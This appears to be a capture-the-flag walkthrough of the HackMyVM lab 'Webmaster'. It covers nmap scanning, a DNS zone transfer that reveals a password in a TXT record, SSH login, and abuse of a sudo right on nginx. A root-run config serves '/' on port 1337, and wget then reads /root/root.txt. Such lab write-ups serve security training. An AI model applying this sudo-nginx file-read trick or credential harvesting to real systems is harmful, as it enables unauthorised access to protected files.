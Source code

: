 # **Webmaster | HackMyVMM**
***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/92e91392-f94e-4ff4-b8f5-c3a26d291308)

## **Difficulty = Easy**
***



First things first, scan the network to discover live host


```bash
nmap -sn 192.168.0.0/24
```



![](https://i.imgur.com/jn0GrKz.png)



Running our nmap scan we discovered 3 open ports


```bash
# Nmap 7.94 scan initiated Fri Dec  8 09:29:40 2023 as: nmap -p- -sCV -v -T4 -oN logs.txt --min-rate=1000 192.168.0.158
Nmap scan report for webmaster (192.168.0.158)
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7e:d2:d5:d0:45:36:d7:c9:ed:3e:1d:5c:86:fb:e4 (RSA)
|   256 04:9d:9a:de:af:31:33:1c:7c:24:4a:97:38:76:f5:f7 (ECDSA)
|_  256 b0:8c:ed:ea:13:0f:03:2a:f3:60:8a:c3:ba:68:4a:be (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.94%I=7%D=12/8%Time=6572D409%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20curren
SF:tly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec  8 09:30:14 2023 -- 1 IP address (1 host up) scanned in 34.28 seconds
```


Navigating to port `80/HTTP` we have this meme 😂 (I hope this teaches people out there not to store password in `.TXT` files, Use a Password Manager instead!!)



![](https://i.imgur.com/ior02HK.png)



Viewing **Page-Source** we have this comments


![](https://i.imgur.com/rgK9fys.png)



As usual we can go ahead and add this to our `/etc/hosts` file


![](https://i.imgur.com/wQEJO11.png)



since port `53/DNS` is opened we can go ahead and do a zone transfer attack


![](https://i.imgur.com/GYUn7db.png)

Hell yeah, something looks odd here though, in the `TXT` records we have the text `Myhiddenpazzword` and then it is linked to the subdomain **john.webmaster.hmv**, let go ahead and try to login via SSH with this


![](https://i.imgur.com/UXQYT4S.png)


So definitely **John's** password is `Myhiddenpazzword`, Running `sudo -l` we have permissions to run `nginx` as root using the **sudo** command


![](https://i.imgur.com/hOKh8WH.png)



We can go ahead and host our `/` directory via nginx then get the root flag as i won't be escalating privileges to root, but performing an horizontal privilege escalation, Save the file below on **John's** home folder and call it `whatever.conf`


```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```



Now run `nginx` with **sudo** pointing to the config file as this we host the `/` directory on our localhost running on port `1337`


```bash
sudo /usr/sbin/nginx -c /home/john/whatever.conf 
```


![](https://i.imgur.com/kpsMSvj.png)



The server does not seem to have `curl` installed but it does have `wget`, so we can use `wget` to download the root flag

```bash
wget  127.0.0.1:1337/root/root.txt
```


![](https://i.imgur.com/EugfhGy.png)



Have fun 🤟


![Uploading file...y2w2r]()



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




